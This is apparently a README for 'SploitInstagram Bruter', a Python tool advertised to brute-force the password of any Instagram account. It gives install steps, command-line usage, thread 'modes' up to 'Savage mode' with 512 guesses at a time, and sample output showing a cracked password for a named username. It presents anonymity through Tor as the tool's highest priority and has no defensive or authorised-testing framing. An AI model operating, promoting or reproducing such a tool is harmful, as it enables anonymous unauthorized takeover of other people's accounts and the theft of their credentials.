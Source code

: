 ### SploitInstagram Bruter

-This program will brute force any Instagram account you send it its way. Just give it a target, a password list and a mode then press enter and forget about it. No need to worry about anonymity when using this program, its highest priority is your anonymity, it only attacks when your identity is hidden.

### Requirements

-   Python _v3.x.x_
-   Kali Linux (Latest Version)
-   TOR (Proxy)

### Install Dependencies

```
pip3 install -r requirements.txt
```

### Help

```
C:\Users\root\Desktop\SploitINSTA>python3 instagram.py -h
usage: instagram.py [-h] [-m MODE] username wordlist

positional arguments:
  username              email or username
  wordlist              password list

optional arguments:
  -h, --help            show this help message and exit
  -m MODE, --mode MODE  modes: 0 => 32 bots; 1 => 16 bots; 2 => 8 bots; 3 => 4 bots
```

### Usage

```
python3 instagram.py <username> <wordlist> -m <mode>
```

### Bots(Threads)

-   4 bots: 64 passwords at a time
-   8 bots: 128 passwords at a time
-   16 bots: 256 passwords at a time
-   32 bots: 512 passwords at a time

### Modes

-   0: 32 bots
-   1: 16 bots
-   2: 8 bots
-   3: 4 bots

### Chill mode

This mode uses only 4 bots, or 64 passwords at a time.

```
C:\Users\root\Desktop\Instagram>python3 instagram.py pabhkn password.lst -m 3
```

### Moderate mode 1

This mode uses 8 bots, or 128 passwords at a time.

```
C:\Users\root\Desktop\Instagram>python3 instagram.py pabhkn password.lst -m 2
```

### Moderate mode 2

This mode uses 16 bots, or 256 passwords at a time.

```
C:\Users\root\Desktop\Instagram>python3 instagram.py pabhkn password.lst -m 1
```

### Savage mode

This mode uses 32 bots, or 512 passwords at a time.

```
C:\Users\root\Desktop\Instagram>python3 instagram.py pabhkn password.lst -m 0
```

### If you don't specify a mode, then mode is set to 2

### Run

```
[-] Wordlist: password.lst
[-] Username: pabhkn
[-] Password: 272
[-] Complete: 45.51%
[-] Attempts: 228
[-] Browsers: 273
[-] Exists: True
```

### Stop

```
[-] Wordlist: password.lst
[-] Username: pabhkn
[-] Password: 9x1xx739xx
[-] Complete: 62.67%
[-] Attempts: 314
[-] Browsers: 185
[-] Exists: True

[!] Password Found
[+] Username: pabhkn
[+] Password: 9x1xx739xx
```
